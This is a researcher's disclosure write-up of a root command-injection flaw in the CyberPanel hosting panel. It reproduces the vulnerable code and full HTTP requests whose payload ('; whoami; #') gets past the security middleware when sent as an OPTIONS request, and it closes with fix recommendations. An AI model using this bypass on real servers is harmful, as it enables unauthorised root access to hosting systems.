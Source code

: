 ```yaml
---
title: "Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing"
published: 2024-10-23
description: "A short story about how I found my first 0day."
tags: [Source Code Analysis, Command Injection, RCE, 0day]
category: Web Security
image: ./cover.jpeg
draft: false
---
```


# Uncovering a Command Injection Vulnerability in CyberPanel: A Fun Journey into Security Testing

In the ever-evolving landscape of web applications, security remains a top concern. As an avid user and supporter of open-source projects, I was drawn to CyberPanel, a widely-used control panel for managing web hosting and server environments. Little did I know that my exploration would lead me down a rabbit hole, revealing a critical command injection vulnerability!

## Setting the Scene: What is CyberPanel?

CyberPanel is an open-source web hosting control panel that aims to simplify the management of servers. It's packed with features, offering everything from file management to SSL management, making it a go-to choice for many developers and system administrators. However, like any powerful tool, it requires vigilance to ensure security measures are robust.

## The Discovery: Unearthing the Vulnerability

While diving into the functionality of CyberPanel, I stumbled upon the `/ftp/getresetstatus` endpoint. At first glance, it appeared innocuous enough, handling user requests with ease. However, a closer inspection revealed a critical flaw: this endpoint processes user input from the `statusfile` parameter without proper validation or sanitization, creating a tempting opportunity for remote command injection.

## The Vulnerable Code

The vulnerability exists in the `/ftp/getresetstatus` endpoint, which processes user input from the `statusfile` parameter. The code directly incorporates this input into a shell command without proper validation or access control. Here’s a simplified version of the vulnerable code:

```python
def getresetstatus(request):
    data = json.loads(request.body)
    statusfile = data['statusfile']
    installStatus = ProcessUtilities.outputExecutioner("sudo cat " + statusfile)
    ...
```

As illustrated, the `statusfile` parameter is directly used in a shell command, creating a significant opportunity for remote command injection. Moreover, this endpoint lacks proper **Access Control Lists (ACLs)**, leaving it vulnerable to unauthorized access.

### Step 1: Initial Testing

My journey began by testing the `/ftp/getresetstatus` endpoint using a POST request. I crafted a request designed to execute the `whoami` command, ensuring to include the necessary CSRF token for validation:

```http
POST /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

Upon sending the request, the security middleware sprang into action and blocked it, returning the following response:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Accept-Language, Cookie
Content-Language: en
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Content-Length: 269
Date: Wed, 23 Oct 2024 10:52:35 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"error_message": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >.", "errorMessage": "Data supplied is not accepted, following characters are not allowed in the input ` $ & ( ) [ ] { } ; : \u2018 < >."}
```

The middleware effectively checked for special characters in POST request bodies, but it did **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 2: Analyzing the Security Middleware

Curious about the middleware's behavior, I dug deeper into the source code. The relevant security middleware checks for specific characters in POST request bodies. Here’s a simplified version of the security middleware code:

```python
class secMiddleware:
    def __call__(self, request):
        if request.method == 'POST':
            try:
                data = json.loads(request.body)
                for key, value in data.items():
                    # Check for special characters
                    if any(char in value for char in [';', '&', '|', '`']):
                        # Log and block the request
                        return HttpResponse("Invalid input detected.")
            except Exception as msg:
                # Handle exceptions
                pass
        return self.get_response(request)
```

The middleware effectively checks for potentially harmful characters in POST requests, but it does **not** apply the same scrutiny to other HTTP methods. This was the critical insight I needed.

### Step 3: The Bypass Discovery

Realizing that the middleware was not enforcing the same checks for OPTIONS requests, I decided to exploit this oversight. I crafted an OPTIONS request with my malicious payload, ensuring to include all relevant headers just like the POST request:

```http
OPTIONS /ftp/getresetstatus HTTP/1.1
Host: example.com
Content-Type: application/json
Cookie: django_language=en; csrftoken=3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
X-Csrftoken: 3WludTzJtlXhmLiVBRZCzkBPgPUwmQMt
Content-Length: 48

{
    "statusfile": "; whoami; #"
}
```

### Step 4: Triggering the Vulnerability

To my surprise, the OPTIONS request successfully passed through the security middleware without any validation, executing the command on the server. This allowed me to retrieve sensitive information, and I received the following response confirming the successful exploitation:

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=utf-8
X-XSS-Protection: 1; mode=block
X-Frame-Options: sameorigin
Content-Security-Policy: style-src 'self' 'unsafe-inline' https://fonts.googleapis.com https://www.jsdelivr.com https://cdnjs.cloudflare.com https://maxcdn.bootstrapcdn.com https://cdn.jsdelivr.net
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Vary: Accept-Language, Cookie
Content-Language: en
Content-Length: 64
Date: Wed, 23 Oct 2024 10:57:29 GMT
Server: LiteSpeed
Connection: Keep-Alive

{"abort": 0, "error_message": "None", "requestStatus": "root\n"}
```

In this response, the `requestStatus` indicates that the command was executed with root privileges, highlighting the severity of the vulnerability.

## Recommendations for Fixing the Vulnerability

Having discovered this vulnerability, it’s crucial to act quickly to secure the application. Here are a few recommendations for CyberPanel developers:

1. **Implement Input Validation**: Ensure all user inputs are validated and sanitized before being used in any shell commands.

2. **Utilize Access Control Lists (ACLs)**: Add ACLs to the `/ftp/getresetstatus` endpoint to restrict access and limit exposure to potential exploits.

3. **Review Other Endpoints**: Conduct a thorough audit of other sensitive endpoints to identify any similar vulnerabilities or missing ACLs.

4. **Restrict HTTP Methods**: Limit the allowed HTTP methods for sensitive endpoints. In particular, restrict the `/ftp/getresetstatus` endpoint to only allow POST requests, which should also pass through strict input validation.

5. **Enhance Security Middleware**: Update the security middleware to inspect all HTTP methods, including OPTIONS, to ensure no bypassing of security checks is possible.

## Conclusion: The Fun in Finding Flaws

Finding this vulnerability in CyberPanel was both a challenge and a rewarding experience. It not only honed my skills in security testing but also reminded me of the importance of community in open-source projects. I encourage other developers and security researchers to dive into CyberPanel and similar applications—who knows what hidden gems (or vulnerabilities) you might find!

As I prepare to submit a CVE request for this vulnerability, I look forward to sharing more about this journey. Stay tuned for further updates as I report on this issue and how it can be addressed!

Happy testing!
